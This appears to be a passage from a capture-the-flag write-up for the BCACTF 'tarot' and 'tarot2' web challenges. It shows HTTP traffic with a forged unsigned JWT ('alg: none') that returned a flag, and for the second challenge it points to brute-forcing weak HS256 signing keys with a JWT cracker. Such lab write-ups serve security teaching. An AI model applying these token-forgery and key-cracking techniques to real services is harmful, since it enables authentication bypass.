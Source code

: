 
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1NzR9.; Path=/
Content-Length: 47
ETag: W/"2f-U05BxFt3ynbML3NP5e9WUdyLJrA"
Date: Sat, 04 Jun 2022 16:51:43 GMT
Connection: close

{"message":"bcactf{n0_s3cr3t5????!!!?!_38893}"}
```


### tarot2 
> I think Jason realized his last attempt at making a tarot website wasn't super secure... so he tightened his security a bit. I still really want that flag though...
> Hint:"What did he change?"

```
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49202/card.html

```

token:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 13
ETag: W/"d-7GJcIGGUJGnOf9xJz6VzjWdnGEo"
Date: Sat, 04 Jun 2022 19:17:57 GMT
Connection: close

{"message":0}
```

Now signed and has  `alg: hs256`

Background:
https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
Bruteforce:
https://auth0.com/blog/brute-forcing-hs256-is-possible-the-importance-of-using-strong-keys-to-sign-jwts/
Exploit:
[GitHub - JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker)
